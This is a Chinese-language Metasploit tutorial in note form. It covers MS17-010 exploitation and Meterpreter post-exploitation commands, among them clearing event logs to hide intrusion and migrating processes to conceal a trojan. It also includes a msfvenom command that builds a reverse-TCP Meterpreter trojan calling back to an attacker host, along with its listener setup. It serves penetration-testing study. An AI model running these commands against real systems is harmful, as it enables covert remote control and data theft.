






## MSF（Metasploit）

输入msfconsole即可开启

- 1、Auxiliary:辅助模块 
- 2、Exploits:攻击模块 
- 3、Payload:攻击载荷模块 
- 4、Post:后渗透模块 
- 5、Encoders:编码模块

命令：

- help 帮助菜单 
- exit 退出MSF 
- search 搜索 
- info 显示一个或多个模块信息 
- show 显示某类型下所有模块 
- jobs 显示管理任务 
- exploit/run -j 后台运行该模块 
- `kill <jobsID>`  结束一个任务

### 使用MSF利用MS17-010漏洞

攻击者利用受害者主机默认开放的SMB服务端口445，发送特殊RPC(Remote Procedure Cal1远程过程调用)请求，造成了栈缓冲区内存错误，造成远程代码执行。影响范围：Windows系统，包括： Win7/windows2008的各个版本









Meterpreter:是Metasploit框架中的一个扩展模块，作为谥出成功以后的攻击载荷使用，攻击载荷在谥出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个 Meterpreter shell的链接。

### MSF后渗透命令

| 命令                   | 解释                                                         |
| ---------------------- | ------------------------------------------------------------ |
| search -f *.txt -d C:/ | 查找 c 盘下的所有 txt 文件                                   |
| download               | 下载受害机的文件                                             |
| upload                 | 上传文件至指定位置                                           |
| idletime               | 看当前会话的主机空闲时间，可以通过查看来观察该主机是否有人进行操作 |
| netstat                | 查看网络连接情况                                             |
| screenshot             | 截取屏幕                                                     |
| clearev                | 清理入侵痕迹                                                 |
| getuid                 | 查看权限                                                     |
| getsystem              | 尝试获取目标主机的system权限                                 |
| background             | 将当前会话放后台                                             |
| getpid                 | 获取当前进程的pid                                            |
| ps                     | 查看当前活跃进程                                             |
| kill                   | 杀死进程                                                     |
| shell                  | 进入目标机的cmd shell                                        |
| run                    | 执行已有的模块，输入run后按两下tab，可列出已有脚本           |
| pwd                    | 查看受害机文件所处位置                                       |

当使用木马上线主机后受害机上会存在木马的进程信息，此时为了隐蔽自己可以进行进程迁移，进程迁移还可以做到一个提权的操作，如果当前进程的权限不够的情况下可以迁移到一个比较高权限创建的进程内来获取更高的操作权限。 explorer:是windows系统图形界面管理文件管理的进程，很重要的也很稳定，如果要将shel1迁移到explorer进程上，可使用命令migrate加上对应的pid即可。

除了上面的手动迁移进程外，meterpreter也提供了一个自动迁移的命令，它就是post后渗透模块中的migrate,它会找一个合适的稳定的进程进行迁移，命令是 

run post/windows/manage/migrate



### MSF后渗透模块

| 功能               | 模块                                  |
| ------------------ | ------------------------------------- |
| 判断是否为虚拟机   | post/windows/gather/checkvm           |
| 判断是否为容器     | post/linux/gather/checkcontainer      |
| 已开服务获取       | post/windows/gather/enum_services     |
| 安装的应用数据获取 | post/windows/gather/enum_applications |
| 补丁信息获取       | post/windows/gather/enum_patches      |
| 开启RDP            | post/windows/manage/enable_rdp        |

### MSF会话管理

- session -l 查看当前存在哪些会话
- `session <id>` 进入某会话
- session -k id 删除会话
- background 隐藏会话 

## Msfvenom

msfvenom是msf框架中一个独立的**攻击载荷生成模块**，是MSF中Payloadi和encode模块的组合，

常规使用命令：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip>LPORT=<port>-f exe reverse shell.exe
LHOST:攻击者ip地址
LPORT:攻击者监听的端口
-f生成的格式为exe
```

将木马内容重定向到本地名为reverse shel.exe

如果使用连接方向来区分远控木马的话，可以分为正向连接和反向连接

- bind开头的Payload为正向连接，用于受害机无法访问攻击机的情况下
- reverse开头的Payload为反向连接，用户受害机可以访问攻击机的情况下

msfvenoms生成的远控木马需要和MsF中的exploit,/multi/hand1er模块配合使用

exploit/multi/hand1er用于建立本机监听

```
msf6 use exploit/multi/handler  //Metasploit自带的监听模块
msf6 exploit(multi/handler)>set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler)>set lhost 0.0.0.0
msf6 exploit(multi/handler)>set lport 4444
msf6 exploit(multi/handler)>exploit
```

